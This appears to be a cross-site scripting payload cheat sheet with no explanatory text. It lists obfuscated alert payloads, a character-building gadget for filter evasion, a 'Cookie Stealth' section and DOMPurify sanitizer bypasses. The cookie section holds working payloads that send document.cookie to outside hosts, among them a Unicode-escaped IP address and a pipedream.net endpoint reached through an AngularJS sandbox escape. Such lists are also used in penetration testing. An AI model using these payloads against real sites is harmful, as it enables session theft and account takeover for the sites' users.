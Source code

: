 ```html
form tag
<form onsubmit=alert(1)><button type=submit></button></form>
  
Constructor
{{+constructor.constructor("alert(document.cookie)")()+}}
  
Etc
ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6
javascript:setInterval`alert\x28document.cookie\x29`'
javascript:alert\xdocument.\xookie\x
  
  
Special char Gadget
c: `${{}}`[!![]<<!![]<<!![]|!![]]
o: `${{}}`[!!{}<<![]]
n: `${[][~[]]}`[!!{}<<![]]
s: `${!![][~[]]}`[(!![]<<!![])|!![]]
t: `${![][~[]]}`[!{}<<![]]
r: `${![][~[]]}`[!!{}<<![]]
u: `${![][~[]]}`[!!{}<<!![]]
c: `${{}}`[!![]<<!![]<<!![]|!![]]
t: `${![][~[]]}`[!{}<<![]]
o: `${{}}`[!!{}<<![]]
r: `${![][~[]]}`[!!{}<<![]]
```

### Cookie Stealth
```html
<script>fetch('url'%2bdocument.cookie)</script>
<script>(new Image).src='url'%2bdocument.cookie;</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.get('url'%2bdocument.cookie)</script>
<script src="//code.jquery.com/jquery.min.js"></script><script>$.getScript("//domain"%2bdocument.cookie)</script>
<video src=1 onerror="javascript:document.location='url'%2bdocument.cookie">
<iframe onload=location='javascri'.concat("pt:document",".location=","'url'%2bdocument.cookie")>
<iframe onload=location=["java","script:","document.location=","'url'%2bdocument.cookie"].join("")>
<svg/onload=setTimeout("\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0034\u0031\u002e\u0031\u0036\u0034\u002e\u0035\u0032\u002e\u0032\u0030\u0037\u003a\u0031\u0032\u0033\u0034\u0035\u002f\u003f\u0061\u003d\u0027\u002b\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0063\u006f\u006f\u006b\u0069\u0065")>
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([location.replace("//384bbb03a643480f7077ff3d9d4b01d5.m.pipedream.net?"+document.cookie)],console.log)'></div>
```

### DOMPurify Bypass
```html
<form><math><mtext><form><mglyph><style></math><img src onerror=alert(1)></style></mglyph></form></mtext></math></form>
<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><![CDATA[</style><img title="]]&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

